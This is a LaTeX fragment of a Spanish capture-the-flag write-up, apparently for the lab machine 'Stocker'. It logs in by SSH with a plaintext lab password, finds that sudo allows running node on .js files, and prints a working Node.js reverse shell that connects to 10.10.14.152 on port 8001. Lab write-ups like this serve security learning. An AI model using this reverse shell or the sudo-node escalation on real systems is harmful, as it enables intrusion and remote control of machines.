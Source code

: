 \documentclass[a4paper]{article} %
\begin{document}
    \begin{lstlisting}[language=python, caption=Conexión remota por ssh]
    
    ssh angoose@stocker.htb

    -------------------------------------------------------------------------------

    password: IHeardPasshrasesArePrettySecure
    \end{lstlisting}

    \begin{figure}[h] %
        \centering
        \texttt{[image: images/angoose-id.png]}
        \caption{Acceso a la máquina} %
    \end{figure}\par\vspace{1cm}

    Si revisamos los permisos privilegios con \textbf{Sudo -l} vemos que podemos ejecutar node y los scripts que termine con \textbf{.js}

    \begin{figure}[h] %
        \centering
        \texttt{[image: images/angoose-sudo.png]}
        \caption{Tenemos permiso para ejecutar node y scripts terminados en .js} %
    \end{figure}\par\vspace{1cm}

    Sabiendo que podemo ejecutar archivos con extension \textbf{.js}, podemos hacer un Path Traversal donde podremos conectarnos por \textbf{NetCat} por el puerto \textbf{8001}.

    Vamos a crear un archivo con extension .js donde pondremos adentro una \textbf{Reverse Shell}, nos guiamos por esta por esta página: \href{https://www.revshells.com/}{\textbf{\color{blue}revshells}}.

    \begin{lstlisting}[language=python, caption=Archivo .js con reverse shell con escucha por el puerto 8001]
    
    nano stocker.js
  
    (function(){
    var net = require("net"),
    cp = require("child_process"),
    sh = cp.spawn("sh", []);
    var client = new net.Socket();
    client.connect(8001, "10.10.14.152", function(){
    client.pipe(sh.stdin);
    sh.stdout.pipe(client);
    sh.stderr.pipe(client);
    });
    return /a/; // Prevents the Node.js application from crashing
    })();
    \end{lstlisting}
    
\end{document}
